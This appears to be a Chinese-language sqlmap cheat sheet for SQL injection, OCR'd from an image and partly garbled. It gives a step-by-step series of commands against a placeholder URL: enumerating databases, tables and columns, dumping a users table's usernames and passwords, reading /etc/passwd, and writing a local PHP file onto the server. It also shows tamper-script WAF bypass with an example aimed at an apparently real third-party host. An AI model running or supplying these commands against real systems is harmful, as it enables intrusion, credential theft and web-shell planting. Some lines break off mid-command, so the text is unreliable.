 

一般注入流程     

-u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db -v 1    

查看数据库类型    当前版本     当前用户     当前数据库

sqlmap -u http://www.xxxxx.com/test.php?p=2 --privileges -U 用户名 -v 1    

sqlmap -u http://www.xxxxx.com/test.php?p=2 --is-dba -U 用户名 -v 1 


第二部查看当前数据库权限


第三步获取所有数据库     

sqlmap -u http://www.xxxxx.com/test.php?p=2 --dbs -v 2      

5.获取指定数据库中的所有表       

sqlmap -u http://www.xxxxx.com/test.php?p=2 --tables -D mysql -v 2    

6.获取指定数据库名中指定表的字段     

sqlmap -u http://www.xxxxx.com/test.php?p=2 --columns -D mysql -T users -v 2     
   
7.获取指定数据库名中指定表中指定字段的数据     
  
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dump -D mysql -T users -C "username,password" -s "sqlnmapdb.log" -v 2   

sqlmap高权限下可以进行文件读写指令

file-read读取web文件    

sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-read "/etc/passwd" -v 2    

9.file-write 将本地文件写入文件到web    
 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-write /localhost/mm.php --file使用sqlmap绕过防火墙进行注入测试：   


脚本介绍：    

sqlmap还有很多的使用脚本确定好waf之后选择对应的脚本绕过或者是自己更改或者编写脚本进行绕过     

例：sqlmap -u "http://yiliao.kingdee.com/contents.php?id=51&types=4" --tamper=A.py,B.py    

 a.py为脚本a  b同理

下面介绍下别的功能


后期分析调试：    

-v=(0-6)  #详细的等级(0-6)   //等级越高注入时显示的信息越多越详细可以参考来判断waf




--proxy "http://xx:xx" #代理注入可以将注入的数据包传到burp等工具进行判断


打乱默认指纹：    
